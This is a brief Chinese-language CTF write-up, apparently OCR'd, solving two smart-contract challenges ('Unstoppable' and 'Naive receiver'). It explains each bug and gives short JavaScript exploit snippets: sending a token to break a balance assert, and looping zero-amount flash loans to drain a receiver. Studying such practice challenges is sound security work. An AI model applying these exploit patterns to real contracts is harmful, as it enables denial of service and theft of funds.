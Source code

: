 ### 1.unstoppable
根据题目，即为攻击合约让他停止工作，在flashLoan函数里面有一句assert(poolBalance == balancebefore),所以让两者不相等即可 

方法即为：transfer 1 ether给合约 

攻击代码： 

 it('Exploit', async function () { 
 
     /** COOD YOUR EXPLOIT HIRE */ 
     
     await this.token.transfer(this.pool.address,1); 
     
 }); 
 
 ### 2.Naive receiver 
 
 题目要求：抽空用户合约里的所有eth 
 
 flashLoan函数以borrower借款 
 
 攻击代码： 
 
  it('Exploit', async function () { 
  
     /** COOD YOUR EXPLOIT HIRE */ 
     
     for(i=0;i<10;i++){ 
     
     await this.pool.flashLoan(this.receiver.address,0); 
     
     } 
     
  });  
